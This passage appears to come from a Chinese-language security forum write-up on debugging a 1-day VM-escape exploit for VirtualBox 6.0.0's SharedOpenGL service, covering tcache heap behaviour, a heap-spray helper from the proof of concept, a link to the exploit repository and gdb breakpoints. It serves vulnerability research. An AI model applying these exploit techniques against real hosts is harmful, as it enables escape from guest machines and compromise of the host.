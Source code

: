 ```shell
                        RTMemFree(pGuestParm->u.ptr.paPages);
            }
        }
```

通过前面的分析， pHostParm-&gt;u.pointer.addr 用于保存 HGCM 的指针参数，对应到 poc 就是 alloc\_buf 的 msg 参数：

```c
def alloc_buf(client, sz, msg='a'):
    buf,_,_,_ = hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0, sz, 0, msg])
    return buf
```

hgcm\_call 进入 VirtualBox 后会在 EMT-1 线程为 msg 参数申请内存&amp;拷贝数据，然后进入 ShCrOpenGL 线程处理完消息后，调用 vmmdevHGCMCmdFree 释放之前为参数申请的内存，由于 tcache 的机制，导致被**释放的内存块会进入 ShCrOpenGL 线程的 tcache**。

‍回到 poc 脚本中 heapSpray 调用 alloc\_buf 传入的 msg 为 nop\_msg() 返回值，大小也为 0x20，最后的解决方式就是设置 msg = 'a'，这样就只会涉及到 0x20 的 tcache bin，不会对 0x30 的 tcache 造成影响.

```c
https://github.com/hac425xxx/VirtualBox-6.0.0-Exploit-1-day/commit/f251a5fa537dbd9246ccc7cb9b8f369bedd8221b
```

修复之后  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-0fef3e048915ce1412a6d3a8f7679dd247569b35.png)

MISC
====

追踪 connect 和 disconnect 的内存分配

```c
gef➤  i b
Num     Type           Disp Enb Address            What
1       breakpoint     keep n   0x00007fc20e9c67d0 in crVBoxServerAddClient at /home/poc/VirtualBox-6.0.0/src/VBox/HostServices/SharedOpenGL/crserverlib/server_main.c:647
        breakpoint already hit 4 times
2       breakpoint     keep y   0x00007fc20e9da4c0 in crServerDeleteClient at /home/poc/VirtualBox-6.0.0/src/VBox/HostServices/SharedOpenGL/crserverlib/server_stream.c:181
        breakpoint already hit 3 times
        printf "free client: 0x%lx, client->conn: 0x%lx\n", client, client->conn
        c
5       breakpoint     keep y   0x00007fc20e9c683f in crVBoxServerAddClient at /home/poc/VirtualBox-6.0.0/src/VBox/HostServices/SharedOpenGL/crserverlib/server_main.c:661
        printf "add client: 0x%lx, client->conn: 0x%lx\n", newClient, newClient->conn
        c
```

相关断点：

```c
break crServerDeleteClient
  commands
    printf "free client: 0x%lx, client->conn: 0x%lx\n", client, client->conn
    c
  end
break *0x7fd269ce883f
  commands
    printf "add client: 0x%lx, client->conn: 0x%lx\n", newClient, newClient->conn
    c
  end
disable $bpnum
break crUnpackExtendGetAttribLocation
disable $bpnum
break crServerDispatchReadPixels
break crservice.cpp:693
disable $bpnum

```